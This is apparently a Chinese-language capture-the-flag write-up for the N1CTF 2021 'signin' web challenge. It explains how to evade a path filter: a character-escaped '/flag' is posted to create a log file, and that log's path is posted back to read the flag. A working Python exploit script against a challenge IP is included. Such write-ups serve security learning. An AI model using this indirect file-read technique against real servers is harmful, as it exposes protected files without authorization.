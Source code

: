 #  signin

题目源码如下：

![avatar](img/n1ctf21-signin.png)

由于后端有过滤机制，不能直接把/flag作为path的内容post上去，所以需要进行两次post。

首先，post的内容（php://input）为/flag，由于后端有一个date的转换，所以需要在每个字符前加上\。

这时候会得到一个内容为“/flag”的txt文件，再次post，这回参数path的内容为这个txt的路径，后端会读取它内容里的路径，得到/flag的内容。

![avatar](img/2055bc6cc10046c68883cb2cc67861db.png)

EXP：
```python
import requests
import re

url = 'http://43.155.64.70/'
r1 = requests.post(url+'?time=', data="\\/\\f\\l\\a\\g")
print(r1.text)
pattern = re.compile("logpath:/var/www/tmp.*\.txt")
log = re.findall(pattern, r1.text)[0].lstrip("logpath:")
print(log)

r2 = requests.post(url, data={"path": log})
print(r2.text)
pattern = re.compile("n1ctf\{.*\}")
flag = re.findall(pattern, r2.text)[0]
print(flag)
```
